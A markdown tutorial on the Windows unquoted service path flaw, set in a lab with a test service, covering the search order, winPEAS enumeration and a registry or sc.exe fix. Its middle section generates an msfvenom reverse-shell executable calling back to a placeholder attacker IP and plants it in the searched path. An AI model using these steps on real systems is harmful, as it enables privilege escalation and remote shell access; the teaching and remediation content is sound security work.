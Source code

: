 ## Unquoted Service Path

When a windows service binary path contains `whitespaces` but no proper `quotation marks`are used, the Windows operating system will search the service binary using a series of rules, which progressively explore the file system. 

Consider the `SimpleService`

```cmd
C:\Users\Quickemu\Downloads>sc.exe qc SimpleService
[SC] QueryServiceConfig SUCCESS

 SERVICE_NAME: SimpleService
           TYPE               : 10  WIN32_OWN_PROCESS
           START_TYPE         : 3   DEMAND_START
           ERROR_CONTROL      : 1   NORMAL
           BINARY_PATH_NAME   : C:\Users\Quickemu\Downloads\simpleService.exe
           LOAD_ORDER_GROUP   :
           TAG                : 0
           DISPLAY_NAME       : SimpleService
           DEPENDENCIES       :
           SERVICE_START_NAME : LocalSystem
```

Let's create a directory containing whitespaces and let's change the binary path to include such directory.

```cmd
mkdir "Example Directory"
```

```cmd
cd '.\Example Directory\'
```

```cmd
mkdir "Another Directory"
```

```cmd
cd '.\Another Directory\'
```

```cmd
move ..\..\simpleService.exe
```

```cmd
sc.exe config SimpleService binpath="C:\Users\Quickemu\Downloads\Example Directory\Another Directory\simpleService.exe"
```

Query the service to see the new path

```cmd
sc.exe qc SimpleService
```

Let us then start the service

```cmd
sc.exe stop SimpleService
```

```cmd
sc.exe start SimpleService
```

When the service starts, the OS will not directly execute the service binary `simpleService.exe`. Rather, Windows will first try to execute the following binaries in order.
```cmd
C:\Users\Quickemu\Downloads\Example.exe
C:\Users\Quickemu\Downloads\Example Directory\Another.exe
C:\Users\Quickemu\Downloads\Example Directory\Another Directory\simpleService.exe
```

This opens up the possibility for an attacker to introduce a malicious binary in one of the paths that Windows searches for. If the attack is able to write in one of those directory an arbitrary executable, then the attacker can hijack the execution flow.

Generate malicious `.exe` with MSFVenom:
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<ATTACKER-IP> LPORT=1337 -f exe -o malicious.exe
```

Move it to vulnerable path:
```cmd
move malicious.exe "\Downloads\Example.exe"
```

Copy file 
```cmd
copy malicious.exe Example.exe
```

Original directory path:
```cmd
C:\Users\Quickemu\Downloads\Example Directory\Another Directory\simpleService.exe
```

Where is Windows looking?

![](img/broken-path.png)

Start service to receive the shell
```cmd
sc.exe start SimpleService
```

## More Examples

Let's see more examples:

- `C:\Program Files (x86)\Company\Company App\App.exe`
```cmd
C:\Program.exe
C:\Program Files.exe
C:\Program Files (x86)\Company\Company.exe
C:\Program Files (x86)\Company\Company App\App.exe
```

- `C:\Program\Cool Company\Cool Binary.exe`
```cmd
C:\Program\Cool.exe
C:\Program\Cool Company\Cool.exe
C:\Program\Cool Company\Cool Binary.exe
```

## Enumeration

To enumerate `unquoted service paths` you can use `winPEAS` as follows:

```cmd
.\winPEAS.exe quiet servicesinfo
```

Notice specifically the text `No quotes and Space detected` in the output.

```cmd
═════════════════════════╣ Services Information╠═════════════════════

═════╣ Interesting Services -non Microsoft-
Check if you can overwrite some service binary or perform a DLL hijacking, also check for unquoted paths

SimpleService(SimpleService)[C:\Users\Quickemu\Downloads\Example Directory Test\Another\simpleService.exe] - Manual - Stopped - No quotes and Space detected

File Permissions: Quickemu [AllAccess]

Possible DLL Hijacking in binary folder: C:\Users\Quickemu\Downloads\Example Directory Test\Another (Quickemu [AllAccess])
```

## Fix

To fix this vulnerability you need to open the registry with `RegEdit` and move into the following entry.

```cmd
HKEY_LOCAL_MACHINE -> SYSTEM
                   -> CurrentControlSet
                   -> Services
                   -> SimpleService
```

You then click on ImagePath and add the quotes.
```cmd
"C:\Users\Quickemu\Downloads\Example Directory\Another\simpleService.exe\"
```

You can also add the quotes directly from the `sc.exe` command, just make sure to escape the quotes.
```cmd
sc.exe config SimpleService binpath="\"C:\Users\Quickemu\Downloads\Example Directory\Another\simpleService.exe\""
```

```cmd
sc.exe config SimpleService binpath="\"C:\Users\Quickemu\Downloads\Example Directory\Another Directory\simpleService.exe\""
```

---
## References

Fixing Unquoted Search Paths Using Powershell: https://www.itsecguy.com/fixing_unquoted/

Windows Privilege Escalation: Unquoted Service Path: https://www.hackingarticles.in/windows-privilege-escalation-unquoted-service-path/

